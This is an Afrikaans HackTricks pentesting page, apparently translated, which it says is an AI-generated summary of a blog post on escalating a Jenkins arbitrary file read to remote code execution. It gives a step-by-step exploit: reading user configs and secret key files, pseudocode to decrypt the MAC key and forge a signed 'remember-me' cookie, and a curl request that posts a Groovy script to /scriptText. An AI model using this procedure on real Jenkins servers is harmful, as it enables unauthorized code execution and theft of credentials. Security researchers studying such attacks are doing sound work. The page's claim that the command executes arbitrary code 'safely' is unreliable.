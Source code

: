 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In hierdie blogpos is dit moontlik om 'n wonderlike manier te vind om 'n Local File Inclusion kwesbaarheid in Jenkins in RCE te transformeer: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dit is 'n AI-gegenereerde opsomming van die deel van die pos waar die vervaardiging van 'n arbitrêre koekie misbruik word om RCE te verkry deur 'n plaaslike lêer te lees totdat ek tyd het om 'n opsomming op my eie te skep:

### Aanval Voorvereistes

* **Kenmerk Vereiste:** "Remember me" moet geaktiveer wees (standaard instelling).
* **Toegangsvlakke:** Aanvaller benodig Algemene/Lees regte.
* **Geheime Toegang:** Vermoë om beide binêre en teksinhoud van sleutel lêers te lees.

### Gedetailleerde Exploitasiestap

#### Stap 1: Gegevensinsamelings

**Gebruikersinligting Herwinning**

* Toegang tot gebruikerskonfigurasie en geheime van `$JENKINS_HOME/users/*.xml` vir elke gebruiker om te versamel:
* **Gebruikersnaam**
* **Gebruikerssaad**
* **Tydstempel**
* **Wagwoord hash**

**Geheime Sleutel Uittrekking**

* Trek kriptografiese sleutels uit wat gebruik word om die koekie te teken:
* **Geheime Sleutel:** `$JENKINS_HOME/secret.key`
* **Meester Sleutel:** `$JENKINS_HOME/secrets/master.key`
* **MAC Sleutel Lêer:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Stap 2: Koekie Vervalsing

**Token Voorbereiding**

*   **Bereken Token Vervaldatum:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Voeg een uur by die huidige tyd
```
{% endcode %}
*   **Konkateer Gegevens vir Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Sleutel Ontsleuteling**

*   **Ontsleutel MAC Sleutel Lêer:**

```javascript
key = toAes128Key(masterKey)  // Convert meester sleutel na AES128 sleutel formaat
decrypted = AES.decrypt(macFile, key)  // Ontsleutel die .mac lêer
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Handtekening Berekening**

*   **Bereken HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Bereken HMAC met die token en MAC sleutel
tokenSignature = bytesToHexString(mac)  // Convert die MAC na 'n hexadesimale string
```

**Koekie Kodering**

*   **Genereer Finale Koekie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodeer die koekie data
```
{% endcode %}

#### Stap 3: Kode Uitvoering

**Sessie Verifikasie**

* **Haal CSRF en Sessie Tokens:**
* Maak 'n versoek na `/crumbIssuer/api/json` om `Jenkins-Crumb` te verkry.
* Vang `JSESSIONID` uit die antwoord, wat saam met die remember-me koekie gebruik sal word.

**Opdrag Uitvoeringsversoek**

*   **Stuur 'n POST Versoek met Groovy Skrip:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skrip kan gebruik word om stelselniveau opdragte of ander operasies binne die Jenkins omgewing uit te voer.

Die voorbeeld curl opdrag wat verskaf word demonstreer hoe om 'n versoek aan Jenkins te maak met die nodige koptekste en koekies om arbitrêre kode veilig uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
